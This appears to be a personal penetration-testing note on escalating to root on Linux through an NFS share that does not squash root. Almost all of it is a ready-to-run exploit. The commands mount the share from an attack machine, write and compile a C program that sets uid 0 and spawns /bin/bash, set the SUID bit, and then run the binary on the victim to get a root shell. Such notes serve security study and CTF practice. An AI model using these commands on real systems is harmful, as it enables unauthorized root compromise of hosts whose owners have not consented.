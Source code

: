 -- -
General workflow is to find a directory you can mount that does not squash root. Mount it on your attack box, make a malicious executable as root, give malware SUID bit, then run said executable from the victim to get a shell. 
[[Dark Arts/Privesc/Linux/Enumeration/NFS Root Squashing|Enum]]

#### Exploit
###### On Attackbox
```bash
# !!!!!!!!! MAKE SURE YOU ARE ROOT ON ATTACK BOX !!!!!!!!!!!
# make a mount point
# can make it wherever, usually I do it in /mnt 
mkdir /tmp/mountme

# mount remote share
# requires sudo to run
# may need to play with the version to get it to mount, when attempting this in practice: 
#vers=3 
# is what worked
mount -o rw,vers=1 <target ip>:<mount dir> /tmp/mountme
mount -o rw,vers=2 192.168.67:/tmp /tmp/mountme

# make malicious c file on remote mount
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c

# you can also generate a shell with msfvenom and use that rather than above file

# compile malware
# ignore warnings like usual
gcc /tmp/mountme/x.c -o /tmp/mountme/x
chmod +s /tmp/mountme/x
```
###### On Victim
```bash
# now just go to the file location and run
cd /tmp 
./x
# should spawn a root shell
```